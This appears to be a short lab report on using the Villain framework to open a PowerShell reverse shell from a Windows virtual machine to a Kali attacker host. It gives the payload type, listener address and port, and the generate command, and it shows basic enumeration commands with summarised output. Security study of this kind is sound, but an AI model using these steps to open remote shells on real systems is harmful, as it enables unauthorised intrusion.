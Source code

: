 # Villain Framework Reverse Shell Report

## Setup Info
- **Payload:** `windows/reverse_tcp/powershell`
- **LHOST:** `192.168.56.101`
- **LPORT:** `8080`

## Payload Delivery Method
The reverse shell payload was generated using the Villain framework with the following command:
generate os=windows lhost=eth1

Villain produced a PowerShell one-liner that was executed on the target Windows virtual machine. This established a reverse connection from the target back to the attacker's Kali Linux machine, enabling command execution.

## Captured Info
- **Hostname:** `DESKTOP-5J4845E`
- **IP Address:** `192.168.56.1`
- **User:** `Windows`

## Enumeration Performed
```powershell
whoami
# Output:
desktop-5j4845e\windows

ipconfig
# Output:
Ethernet adapter details showing IP 192.168.56.1 and network configuration.

systeminfo
# Output:
Displayed OS Name, Version, Build Number, Registered Owner, System Manufacturer, System Model, Processor details, BIOS version, and other hardware/software information.


Observations
Villain successfully established a reverse shell connection to the target VM.

Commands executed remotely returned accurate system information from the target machine.

The test confirmed that Villain can be used for controlled penetration testing in a safe lab environment.
